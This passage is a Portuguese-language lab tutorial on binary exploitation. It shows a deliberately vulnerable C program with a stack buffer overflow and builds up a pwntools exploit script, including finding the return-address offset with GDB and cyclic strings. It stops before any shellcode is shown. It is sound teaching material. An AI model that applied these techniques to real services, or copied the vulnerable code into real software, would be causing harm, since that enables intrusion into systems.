

# Roteiro de Laboratório - Introdução à Exploração de Binários

Bem-vindo e bem vinda à esse laboratório de **Introdução à Exploração de
Binários**. Essa é uma área bastante extensa, complexa e com bastante detalhes,
repleta de desafios instigantes para serem trabalhados. Querendo dar um gostinho
para as pessoas que por acaso não tenham um conhecimento nesse campo, montamos
esse laboratório introdutório para você começar os estudos.

## Introdução

Nesse laboratório abordaremos um tipo de vulnerabilidade simples e que era
bastante comum em binários há um tempo atrás. Optamos por essa abordagem por
acharmos válido uma simplificação para um primeiro contato. Mesmo assim
trataremos diversos assuntos técnicos e traremos um conteúdo coeso para você
sair daqui tendo um bom início na área.

**Happy hacking! \o/**

### Pré Requisitos

Ao longo desse laboratório você precisará de alguns conhecimentos sobre
programas compilados, sistemas operacionais, arquitetura de computador,
organização de memória dentre outros temas interessantes que são bem comuns
quando se envereda pela área de baixo nível.

Imaginamos que alguns desses conteúdos você já deve ter visto devido à estudos
em faculdade ou por conta própria, para pelo menos entender como um computador
funciona. Mesmo assim vamos dar uma breve revisada em alguns tópicos que são
cruciais para entender a vulnerabilidade apresentada e o método de exploração.

> [!TIP]
> Mesmo com essa revisão que faremos aqui, caso você encontre algum termo ou
> conceito que não entenda, recomendamos fortemente que faça uma busca para
> estudar um pouco sobre. Nessa área, o aprendizado é como levantar uma parede,
> precisamos colocar os bloquinhos da base também, sem saltar etapas. :)

> [!NOTE]
> Agora, caso veja que algo está confuso, por gentileza, entre em contato
> conosco indicando a dúvida ou o que está estranho no material. Nosso objetivo
> é fazer um laboratório bem didático, e para isso contamos com sua ajuda também
> para desenvolver bons materiais para mais gente, fechado?! o/

### Explicação do ambiente

A topologia desse laboratório é bem simples:



O dispositivo da esquerda (`chall`) é uma máquina que contém o programa vulnerável que
iremos explorar. Esse programa é executado como um serviço disponível para
outras máquinas acessarem pela porta `TCP/1337`. Nosso objetivo é criar um
*exploit* que explore a vulnerabilidade, nos dando acesso para executar comandos
na máquina.

Já a máquina da direita (`pwn`) é uma que preparamos para ser nosso ambiente de
exploração. Nessa máquina instalamos alguns programas que serão bem úteis para
fazermos as etapas para a escrita do *exploit*, desde a análise inicial do
programa até a completa exploração via rede. Alguns exemplos dos programas que
tem nessa máquina são:

- [gdb](https://sourceware.org/gdb/)
- [python3](https://www.python.org/)
- [ipython](https://ipython.org/)
- [pwntools](https://github.com/Gallopsled/pwntools)
- [pwndbg](https://pwndbg.re/)

Montamos isso para facilitar, de modo que você consegue seguir o laboratório só
precisando de um navegador para acessar os recursos. Mas você também pode
realizar a exploração a partir desses programas executando em sua máquina. Para
isso você precisará baixar o binário vulnerável através do botão
`http-download`. Já para acessar e explorar o serviço, é pelo endereço
disponibilizado no botão `http-chall`.

## Revisão: Calling conventions

Um conceito muito comum na programação é o de funções. Funções são trechos de
códigos para realizar determinado propósito, de modo que quando uma parte de um
programa precisa realizar tal ação, basta chamar a função, quantas vezes quiser,
sem precisar replicar todo o código que foi escrito naquela função. Isso permite
que programas sejam menores em quantidade de código e sejam mais corretos e
fáceis de manter.

Para agilizar ainda mais esse processo, existe o conceito de bibliotecas
compartilhadas, que é, basicamente, um aglomerado de diversas funções com
propósitos comuns que costumeiramente são necessários em diversos programas.

Dessa forma, se alguém precisa fazer um programa para ler uma entrada do
usuário, não precisa criar todo o código que vai ouvir eventos do teclado,
decodificar as teclas para então saber o que fazer com cada uma; basta chamar a
função `scanf()` da LIBC. Analogamente acontece para caso deseje imprimir dados
na tela: não será necessário entender da interface de comunicação com o monitor,
a quantidade de pixels e resolução que a tela tem, etc; apenas utiliza a função
`printf()`, também da LIBC.

Porém, veja, a LIBC foi feita e mantida por uma galera que não é a mesma que
cria todos os outros programas. Então é necessário uma padronização de como
esses trechos de código devem conversar. A isso é dado o nome de **Calling
Conventions**.

Basicamente, [**calling convention**](https://en.wikipedia.org/wiki/Calling_convention) é um esquema que diz como que funções 
recebem parâmetros e como devem retornar os valores. Dessa forma, é possível
compartilhar código entre projetos diferentes e funcionarão sem problemas.

Existem diversos tipos de **calling conventions** e a forma como cada uma funciona
pode variar de acordo com a arquitetura que estamos lidando. No caso desse
laboratório vamos tratar da arquitetura x86_64.

Nessa arquitetura, os parâmetros são passados para a função utilizando alguns
registradores, nessa ordem: `RDI`, `RSI`, `RDX`, `RCX`, `R8`, `R9`. Caso sejam
necessários mais parâmetros, eles são empilhados na stack, começando do último.
Ou seja, se a função precisa de 8 argumentos, os 6 primeiros são passados pelos
registradores informados, e os outros dois (o sétimo e o oitavo parâmetros) são
passados pela stack, empilhados, primeiro o oitavo, depois o sétimo. O retorno
da função é colocado no registrador `RAX`.

Além dos parâmetros, que podem ir pela stack, outros valores também são
empilhados na stack: o endereço de retorno e o valor de `RBP`. Quando
começa a executar a função, caso ela precise de variáveis para funcionar, também
será utilizada a stack para isso. Essa região da stack organizada para uma
função poder executar corretamente chamamos de *stack frame*.

Vamos tratar sobre cada um desses valores no *stack frame*:

O endereço de retorno é importante pois é a forma que o processador tem de saber
de onde aquela função foi chamada. Veja, se temos um código como esse:

```c
#include <stdio.h>

int main (int argc, char ** argv) {
    int idade;

    printf("Me informa sua idade: ");
    scanf("%d", &idade);
    printf("Você me informou: %d\n", idade);

    return 0;
}
```

Repare que dentro da função `main()` chamamos algumas outras funções para serem
executadas, como a `printf()` e `scanf()`. Quando o programa está executando,
então chega na primeira chamada para `printf()`, a CPU é direcionada para
executar o código dessa função. Quando termina de executar todo o `printf()`, é
necessário saber como retornar para o ponto que estava na execução da nossa
função `main()`, né isso? Por isso que precisa daquele endereço de retorno
salvo, para quando terminar de executar uma função, saber para onde deve
retornar e seguir o fluxo esperado de execução.

Como falamos anteriormente, também tem na stack o valor de `RBP`. Isso acontece
pois, veja bem, diversas funções podem ser executadas aninhadamente, certo?
Considere o código anterior como exemplo. Nele, temos a função `main()` que
chama `printf()`, que por sua vez, pode chamar outra função a partir dela, e
assim por diante. Então, é necessário haver uma forma de o processador saber
como voltar para as informações do contexto da função, ou seja, saber como
retornar para o *stack frame* da função que ele está executando. Isso acontece
utilizando o valor de `RBP` armazenado.

Aqui alguns links interessantes para ver mais sobre **calling conventions**:

- [Wikipedia: Calling convention](https://en.wikipedia.org/wiki/Calling_convention)
- [Wikipedia: x86 calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions)
- [OS Dev: Calling Conventions](https://wiki.osdev.org/Calling_Conventions)
- [64 bit x85 calling convention](https://aaronbloomfield.github.io/pdr/book/x86-64bit-ccc-chapter.pdf)
- [x86-64 Architecture Guide](http://6.s081.scripts.mit.edu/sp18/x86-64-architecture-guide.html)
- [Geeks for Geeks: Stack Frame in Computer Organization](https://www.geeksforgeeks.org/computer-organization-architecture/stack-frame-in-computer-organization/)

## Obter binário

Vamos começar coletando o binário para o ambiente que faremos as análises e
montaremos o *exploit*. Na mesma máquina que o binário executa como serviço de
rede também tem um servidor web que permite baixarmos o programa.

Para isso, acesse o dispositivo **pwn** e execute:

```
wget 192.168.0.20:8000/binexp_bof_01
```

Em seguida dê permissão para executar o arquivo:

```
chmod +x binexp_bof_01
```

Com isso, se você executar o programa já deve funcionar:

```
./binexp_bof_01
```

Conseguimos executar esse programa na máquina **chall** acessando o serviço de
rede na porta `TCP/1337`. Então teste isso executando, ainda na máquina **pwn**
o seguinte comando:

```
nc 192.168.0.20 1337
```

Você deve ter o mesmo tipo de saída executando o binário localmente e via rede,
certo? Pois bem, então agora podemos seguir para análise do programa para
realizarmos a exploração.

Uma primeira análise breve que podemos fazer é analisar algumas funcionalidades
de segurança se foram habilitadas na compilação desse programa. Podemos fazer
isso executando o comando `checksec` da ferramenta `pwntools` que já tem
instalada na máquina **pwn**:

```
pwn checksec binexp_bof_01
```

Você deve ter como saída o seguinte resultado:

```
root@mnsec-pwn-d998c673219144:~# pwn checksec binexp_bof_01 
[*] '/root/binexp_bof_01'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

Isso indica que não há mitigações modernas habilitadas nesse programa.
Comentaremos mais sobre isso ao final desse laboratório.

## Vulnerabilidade

O código do binário que vamos trabalhar é o seguinte:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void timeout (int n) {
    puts("Timeout");
    exit(-1);
}

void initialize (void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, timeout);
    alarm(30);
}

int main (int argc, char ** argv) {
    char buffer[0x80];

    initialize();

    printf("[*] buffer is on: %p\n", buffer);
    puts("[*] Now send data to buffer: ");
    scanf("%180s", buffer);

    return 0;
}
```

> [!TIP]
> Pode ignorar o conteúdo das funções `timeout()` e `initialize()`. Elas só
> foram colocadas aí para um melhor funcionamento do programa da forma como
> disponibilizamos para exploração. Foque no conteúdo da função `main()`

> [!IMPORTANT]
> Olhe bem para esse código, principalmente na função `main()`. Veja se você
> consegue ver se algo está errado. Leve um tempo fazendo isso, mesmo que não
> surja nada em mente.
>
> Lembre da explicação sobre **calling convention** e **stack frame** acima.
>
> O que você acha que pode ser um problema nesse código? (não há resposta
> errada, me diga o que você tem em mente agora)
>
> <textarea name="resposta_vuln" rows="3" cols="80" placeholder="Escreva sua resposta aqui..."></textarea>

Você entendeu, linha a linha, o que a função `main()` faz? Confere se foi isso
aqui mesmo que pensou:

1. Reserva um espaço na stack de 128 bytes. Não se deixe enganar pela notação em
   hexadecimal para achar que são 80 bytes, eim?! `0x80` em decimal é 128.
2. Chama a função `initialize()`, mas isso vamos ignorar por enquanto.
3. Chama a função `printf()`, que vai ter como saída para o usuário o endereço
   de memória que é o espaço reservado na stack para ser a variável `buffer`.
4. Chama a função `puts()`, só informando que será lido um valor para `buffer`.
5. Lê do usuário um máximo de 180 bytes, armazenando na variável `buffer`.

Confere com o que você tinha em mente? :)

> [!IMPORTANT]
> Com essa breve análise do que está sendo feito pelo programa, o que você acha?
> Está tudo certinho, tem algum problema? Conte-me sobre.
>
> <textarea name="resposta_vuln2" rows="3" cols="80" placeholder="Escreva sua resposta aqui..."></textarea>

De fato temos um problema no código. Repare que o `buffer` tem um espaço para
armazenar um total de 128 bytes, enquanto que a leitura permite colocar 180
bytes. Essa conta não fecha, né? Esse tipo de vulnerabilidade é chamado de
**buffer overflow**.

Vamos começar fazendo um pequeno teste: que tal enviar 180 bytes para ver o que acontece
com o programa? Faremos isso mais adiante.

## Exploração

Agora que já temos o programa no ambiente para fazer análise e exploração e
também começamos entender qual é o problema no código em questão, podemos
começar o processo de exploração para que no final tenhamos um código que,
quando executado, nos dê acesso à shell da máquina que tem o programa vulnerável
executando como serviço de rede.

Todo o processo de exploração pode ser quebrado em passos menores para irmos
vendo os progressos que formos fazendo no decorrer do processo todo. Isso começa
com o primeiro passo que é de fato validar se há a vulnerabilidade que pensamos,
né? Veremos isso logo na seção abaixo.

### Trigger da vulnerabilidade

Você já tem o programa que pode ser executado na máquina e temos a sugestão do
primeiro teste a fazer, que comentamos acima, lembra?

> Vamos começar fazendo um pequeno teste: que tal enviar 180 bytes para ver o que acontece
> com o programa? Faremos isso mais adiante.

Para enviar esses 180 bytes podemos fazer manualmente, contando quantos
caracteres digitamos, mas isso não parece uma forma prática, né? rs

Uma forma mais prática seria gerar uma *string* de 180 bytes, daí enviar essa
*string* para o programa. Podemos fazer isso usando `python3` da seguinte
maneira:

```
python3 -c 'print("A"*180)'
```

Ao executar esse comando você deve ver vários `AAA`s. Podemos copiar e colar
isso na execução do programa, que vai ter um resultado assim:

```
root@mnsec-pwn-d998c673219144:~# python3 -c 'print("A"*180)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
root@mnsec-pwn-d998c673219144:~# ./binexp_bof_01 
[*] buffer is on: 0x7ffdf8f204d0
[*] Now send data to buffer: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
root@mnsec-pwn-d998c673219144:~# 
```

Percebe que houve um erro na execução do programa? Causamos isso pois enviamos
mais dados para o `buffer` do que ele é capaz de comportar. Enviamos 180 bytes
para um espaço que comportava 128 bytes. Por isso a vulnerabilidade é chamada de
**buffer overflow**.

> [!TIP]
> Repare: se temos um balde de capacidade de 3 litros e tentamos colocar nele 5
> litros de água, o que acontece? O restante da água derrama, né? Exatamente,
> esse é o ponto dessa vulnerabilidade.

Finalizamos o primeiro passo de nossa exploração que é de acionar a
vulnerabilidade, comprovando que ela existe. Nos passos seguintes vamos evoluir
disso para uma exploração completa da vulnerabilidade.

#### Pwntools

Mas antes de seguir, temos algo interessante que pensamos em fazer. Vamos
utilizar um ferramental moderno para essa exploração. Assim, podemos focar na
exploração em si, sendo mais prático para nosso aprendizado.

A ferramenta que vamos utilizar para esse propósito é o [pwntools](https://pwntools.com/),
que funciona também como uma biblioteca em python com diversas funcionalidades
para lidar com execução de programas (como enviar dados e ler o que foi
escrito), além de também diversos recursos que facilitam no momento da
exploração. Vamos ver aos poucos conforme formos avançando.

O primeiro passo é executarmos o programa até chegar na vulnerabilidade, que é o
estado que já chegamos anteriormente, só que agora fazer isso via `pwntools`.

Crie um arquivo chamado `exploit.py` com o seguinte conteúdo:

```python
#!/usr/bin/env python3

from pwn import *

p = process('./binexp_bof_01')

p.interactive()
```

Dê permissão de execução e execute o *script*. Você deve ver o resultado da
execução do programa:

```
root@mnsec-pwn-d998c673219144:~# vim exploit.py
root@mnsec-pwn-d998c673219144:~# chmod +x exploit.py
root@mnsec-pwn-d998c673219144:~# ./exploit.py 
[+] Starting local process './binexp_bof_01': pid 169
[*] Switching to interactive mode
[*] buffer is on: 0x7ffdbb32a3f0
[*] Now send data to buffer: 
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './binexp_bof_01' stopped with exit code 0 (pid 169)
[*] Got EOF while sending in interactive
```

Primeiro, importamos as funções da biblioteca `pwntools` (que é chamada `pwn`).
Então criamos um objeto de execução de um binário pela chamada à função
`process()` informando o nome do binário que queremos executar. Por fim
solicitamos uma shell interativa do `pwntools` no contexto desse binário em
execução. Por isso conseguimos ver o texto que o binário exibiu ao ser
executado.

Agora o programa ele fica esperando ser enviado dados, vamos fazer isso com o
`pwntools`... Depois de começar a execução do binário, vamos criar aquela
*string* com 180 `A` e enviar ela para o processo. Isso pode ser feito com essas
linhas de código:

```python
payload = b'A' * 180
p.sendline(payload)
```

Seu código final deve ficar assim:

```
#!/usr/bin/env python3

from pwn import *

p = process('./binexp_bof_01')

payload = b'A' * 180
p.sendline(payload)

p.interactive()
```

Então durante a execução você já deve ver que o processo falhou, daí quando
solicitar para sair do `pwntools` verá a mensagem de falha de segmentação:

```
root@mnsec-pwn-d998c673219144:~# ./exploit.py 
[+] Starting local process './binexp_bof_01': pid 178
[*] Switching to interactive mode
[*] buffer is on: 0x7ffdc592b380
[*] Now send data to buffer: 
[*] Got EOF while reading in interactive
$ exit
[*] Process './binexp_bof_01' stopped with exit code -11 (SIGSEGV) (pid 178)
[*] Got EOF while sending in interactive
```

Pronto, agora alcançamos o ponto que estávamos antes de executar o programa
acionando a vulnerabilidade, o que faz com que o programa execute com erro, e
agora temos isso num *script* python organizado que facilitará nossa interação
com o programa vulnerável. Show de bola, vamos em frente! \o/

#### Entendendo o erro

Você pode estar se perguntando: "Mas por quê tem uma falha de segmentação? Como
assim, só por ter mandado alguns bytes a mais??"... Bem, vamos entender isso com
ajuda do GDB.

Execute o programa com o GDB:

```
gdb ./binexp_bof_01
```

Pelo GDB coloque para executar o programa. Isso pode ser feito com o comando
`run`:

```
(gdb) run
Starting program: /root/binexp_bof_01 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[*] buffer is on: 0x7fffffff4990
[*] Now send data to buffer: 

```

Perceba que nesse ponto o programa está esperando serem enviados os dados,
certo? Pegue aquela *string* com 180 `A` que criamos e envie aí.

> [!WARNING]
> Pode ser que nesse meio tempo de pegar aquela *string* para enviar, o programa
> termine a execução, com um erro tipo `Timeout`. Isso acontece por causa
> daquelas funções que falamos que podemos ignorar por enquanto.
>
> Se acontecer isso com você, copie logo a *string* e execute os passos de rodar
> o GDB e colocar o programa em execução com o comando `run`.

Enviando a *string* que quebra o programa devemos ter o seguinte resultado:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401273 in main ()
=> 0x0000000000401273 <main+104>:       c3                      ret
(gdb)
```

Veja que o programa falhou ao tentar executar a instrução `ret`. Lembra sobre o que
falamos de **calling conventions**? Quando a instrução `ret` é executada ela
deve pegar o endereço que está no topo da stack (que deveria ser o endereço de
retorno para onde o programa estava antes de entrar na função atual), colocar em
`RIP` para então seguir o fluxo de execução de volta onde estava.

Dê uma olhadinha no que tem no topo da stack quando o programa falhou:

```
(gdb) x/gx $rsp
0x7fffffff4a18: 0x4141414141414141
(gdb) x/s $rsp
0x7fffffff4a18: 'A' <repeats 44 times>
```

Esses são os `A` sobressalentes que mandamos na execução do programa.
Interessante, não é? O caractere `A` em hexadecimal é `0x41` (dê uma olhadinha
na tabela ASCII).

O ponto da falha de segmentação que acontece por causa que o processador deve
redirecionar o fluxo de execução para o endereço `0x4141414141414141`, mas esse
endereço não é mapeado na memória do processo. Podemos olhar a memória do
processo pelo GDB com o comando `info proc map`, e notaremos que não tem nenhum
mapeamento que inclua o endereço `0x4141414141414141`:

```
(gdb) info proc map
process 208
Mapped address spaces:

          Start Addr           End Addr       Size     Offset  Perms  objfile
            0x400000           0x401000     0x1000        0x0  r--p   /root/binexp_bof_01
            0x401000           0x402000     0x1000     0x1000  r-xp   /root/binexp_bof_01
            0x402000           0x403000     0x1000     0x2000  r--p   /root/binexp_bof_01
            0x403000           0x404000     0x1000     0x2000  rw-p   /root/binexp_bof_01
      0x7ffff7da4000     0x7ffff7da7000     0x3000        0x0  rw-p   
      0x7ffff7da7000     0x7ffff7dcf000    0x28000        0x0  r--p   /usr/lib/x86_64-linux-gnu/libc.so.6
      0x7ffff7dcf000     0x7ffff7f57000   0x188000    0x28000  r-xp   /usr/lib/x86_64-linux-gnu/libc.so.6
      0x7ffff7f57000     0x7ffff7fa6000    0x4f000   0x1b0000  r--p   /usr/lib/x86_64-linux-gnu/libc.so.6
      0x7ffff7fa6000     0x7ffff7faa000     0x4000   0x1fe000  r--p   /usr/lib/x86_64-linux-gnu/libc.so.6
      0x7ffff7faa000     0x7ffff7fac000     0x2000   0x202000  rw-p   /usr/lib/x86_64-linux-gnu/libc.so.6
      0x7ffff7fac000     0x7ffff7fb9000     0xd000        0x0  rw-p   
      0x7ffff7fbd000     0x7ffff7fbf000     0x2000        0x0  rw-p   
      0x7ffff7fbf000     0x7ffff7fc3000     0x4000        0x0  r--p   [vvar]
      0x7ffff7fc3000     0x7ffff7fc5000     0x2000        0x0  r-xp   [vdso]
      0x7ffff7fc5000     0x7ffff7fc6000     0x1000        0x0  r--p   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
      0x7ffff7fc6000     0x7ffff7ff1000    0x2b000     0x1000  r-xp   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
      0x7ffff7ff1000     0x7ffff7ffb000     0xa000    0x2c000  r--p   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
      0x7ffff7ffb000     0x7ffff7ffd000     0x2000    0x36000  r--p   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
      0x7ffff7ffd000     0x7ffff7fff000     0x2000    0x38000  rw-p   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
      0x7ffffffd6000     0x7ffffffff000    0x29000        0x0  rwxp   [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0  --xp   [vsyscall]
```

### Controlar RIP

Bem, vimos que o que enviamos para `buffer` acaba sendo o que deve parar em
`RIP`, que é o registrador que controla o que vai ser executado pela CPU. Isso
quer dizer que podemos controlar o que vai ser executado, interessante, não? A
exploração que faremos consiste exatamente nisso: ajustar o valor de `RIP` para
apontar para um local que execute código da nossa escolha.

Até então conseguimos colocar `0x4141414141414141` no `RIP`, só que estamos
enviando 180 `A`s, qual deles é o que vai parar no `RIP`? Temos que descobrir
isso: em qual *offset* começa os `A` que vão parar em `RIP`.

#### Descobrir offset: manual

Uma maneira que gosto de fazer é calcular manualmente onde começou o `buffer`
que inserimos dados até o ponto que é o topo da stack no momento da instrução
`ret` ser executada. Podemos fazer isso olhando para a stack, bastando calcular
a diferença do endereço que é o topo da *stack* com o endereço que começa a ter
os `A`s que enviamos:

```
(gdb) x/50gx $rsp-200
0x7fffffff4950: 0x0000000000000001      0x0000000000000000
0x7fffffff4960: 0x00007fffffff4b38      0x00007ffff7ffe2e0
0x7fffffff4970: 0x00007fffffff4a10      0x000000000040126d
0x7fffffff4980: 0x00007fffffff4b38      0x0000000101180000
0x7fffffff4990: 0x4141414141414141      0x4141414141414141
0x7fffffff49a0: 0x4141414141414141      0x4141414141414141
0x7fffffff49b0: 0x4141414141414141      0x4141414141414141
0x7fffffff49c0: 0x4141414141414141      0x4141414141414141
0x7fffffff49d0: 0x4141414141414141      0x4141414141414141
0x7fffffff49e0: 0x4141414141414141      0x4141414141414141
0x7fffffff49f0: 0x4141414141414141      0x4141414141414141
0x7fffffff4a00: 0x4141414141414141      0x4141414141414141
0x7fffffff4a10: 0x4141414141414141      0x4141414141414141
0x7fffffff4a20: 0x4141414141414141      0x4141414141414141
0x7fffffff4a30: 0x4141414141414141      0x4141414141414141
0x7fffffff4a40: 0x00007f0041414141      0x88dbf9a5192ea421
0x7fffffff4a50: 0x0000000000000001      0x0000000000000000
0x7fffffff4a60: 0x0000000000403178      0x00007ffff7ffd000
0x7fffffff4a70: 0x88dbf9a5180ea421      0x88dbe9e1af4ca421
0x7fffffff4a80: 0x00007fff00000000      0x0000000000000000
0x7fffffff4a90: 0x0000000000000000      0x0000000000000001
0x7fffffff4aa0: 0x00007fffffff4b30      0x2a8502e299151500
0x7fffffff4ab0: 0x00007fffffff4b10      0x00007ffff7dd128b
0x7fffffff4ac0: 0x00007fffffff4b48      0x0000000000403178
0x7fffffff4ad0: 0x00007fffffff4b48      0x000000000040120b
(gdb) x/gx $rsp
0x7fffffff4a18: 0x4141414141414141
(gdb) p/d 0x7fffffff4a18 - 0x7fffffff4990
$1 = 136
```

Por essa conta o valor do *offset* é 136. Vamos confirmar isso!

Gere uma *string* com 136 `A`s e depois 8 `B`s e use essa nova *string* para
enviar ao programa no GDB. Assim, se no momento de executar
a instrução `ret` no topo da stack tiver os `B`s, saberemos que estamos certos.

```
python3 -c 'print("A"*136 + "B"*8)'
```

```
(gdb) r
Starting program: /root/binexp_bof_01 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[*] buffer is on: 0x7fffffff4990
[*] Now send data to buffer: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401273 in main ()
=> 0x0000000000401273 <main+104>:       c3                      ret
(gdb) x/gx $rsp
0x7fffffff4a18: 0x4242424242424242
(gdb) x/s $rsp
0x7fffffff4a18: "BBBBBBBB"
```

Olha só, funcionou legal, estamos certo nessa, eim?! :)

#### Descobrir offset: string cíclica

Uma outra forma bem interessante de conseguir calcular o valor do **offset**
consiste em empresar o [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
para criar uma *string* cíclica que uma determinada *substring* vai ser única na
sequência gerada. Vamos ver como podemos utilizar isso a nosso favor.

O `pwntools` também já implementa esse tipo de técnica, podendo ser usado
chamando o comando `cyclic` e informando o tamanho da *string* que quer gerar.
Vamos gerar uma *string* com os 180 bytes que queremos:

```
pwn cyclic 180
```

Agora vamos repetir os passos anteriores, utilizando o GDB, para ver qual valor
ficaria no `RIP`:

```
[*] buffer is on: 0x7fffffff4990
[*] Now send data to buffer: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaab

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401273 in main ()
=> 0x0000000000401273 <main+104>:       c3                      ret
(gdb) 
(gdb) x/gx $rsp
0x7fffffff4a18: 0x6261616b6261616a
```

Agora, pegando esse valor que está no topo da stack (`0x6261616b6261616a`) e
utilizando o próprio comando `cyclic` no `pwntools`, conseguimos saber qual o
*offset* que essa substring é na sequência toda:

```
root@mnsec-pwn-d998c673219144:~# pwn cyclic -l 0x6261616b6261616a
136
```

Oh lá, ó! Bateu com o que queríamos :)

#### Descobrir offset usando pwntools com GDB

Agora, convenhamos: estamos escrevendo um *script* para facilitar a exploração,
então por quê não já enviar a *string* cíclica por ele? Ainda mais que o próprio
`pwntools` que está sendo utilizado. Realmente, vamos ajustar para fazer assim,
então.

Invés de enviar um *payload* repleto de `A`s, vamos criar a *string* cíclica.
Para fazer isso utilizando o `pwntools` como biblioteca basta ajustar o código
para o *payload* ficar assim:

```python
payload = cyclic(180)
p.sendline(payload)
```

Além disso, vamos arrumar o *script* que estamos fazendo para invés de
simplesmente executar o programa, vamos fazer com que execute o programa e anexe
o GDB à ele, assim a gente consegue investigar.

Então invés de termos no *script* a criação de um processo usando o binário,
vamos colocar para ser um debug com o GDB:

```python
p = gdb.debug('./binexp_bof_01', '''
    continue
''')
```

Seu *script* `exploit.py` agora deve estar assim:

```python
#!/usr/bin/env python3

from pwn import *

p = gdb.debug('./binexp_bof_01', '''
    continue
''')

payload = cyclic(180)
p.sendline(payload)

p.interactive()
```

Ah, mas antes de executar o *script*, vamos iniciar o `tmux` para trabalharmos
dentro dele. Isso é necessário pois, por padrão, essa funcionalidade de debugar
com o GDB via `pwntools` dessa maneira é feita utilizando o `tmux`. Dessa
maneira, quando executarmos o *script* `exploit.py`, o terminal será dividido em
dois, e você já terá o cursor para interagir com o GDB.

Vez que está no GDB, agora com os dados enviados pelo *script* `exploit.py`,
podemos pegar o valor que iria para `RIP` da mesma maneira, sair do GDB e
utilizar ele para calcular o *offset*:

```
(gdb) x/gx $rsp
0x7ffdfde85f98: 0x6261616b6261616a
(gdb) quit
```

```
root@mnsec-pwn-d998c673219144:~# pwn cyclic -l 0x6261616b6261616a
136
```

Massa, né?! Chegamos ao ponto de saber como controlar o que vai para `RIP`.
Agora, que valor deve ser uma boa colocar nesse registrador? Vamos tratar isso
no próximo tópico.

> [!IMPORTANT]
> Só pra validarmos que você está conosco mesmo, qual o valor em hexadecimal do *offset* para o
> valor que irá para `RIP`?
> 
> <input type="radio" name="resposta_offset" id="id01" value="136" /> <label> for="id01">136</label><br>
> <input type="radio" name="resposta_offset" id="id02" value="0x136" /> <label> for="id02">0x136</label><br>
> <input type="radio" name="resposta_offset" id="id03" value="0x88" /> <label> for="id03">0x88</label><br>
> <input type="radio" name="resposta_offset" id="id04" value="88" /> <label> for="id04">88</label><br>

#### Valor que queremos colocar em RIP

> [!IMPORTANT]
> Realmente, questão interessante essa. Antes de prosseguirmos: o que você 
> acha que podemos colocar para ser o valor de `RIP`? (não tem resposta certa)
>
> <textarea name="resposta_rip" rows="3" cols="80" placeholder="Escreva sua resposta aqui..."></textarea>

Vamos tentar seguir uma linha de raciocínio aqui para responder a essa questão
considerando alguns pontos:

- Conseguimos controlar o valor que vai para `RIP` em algum momento.
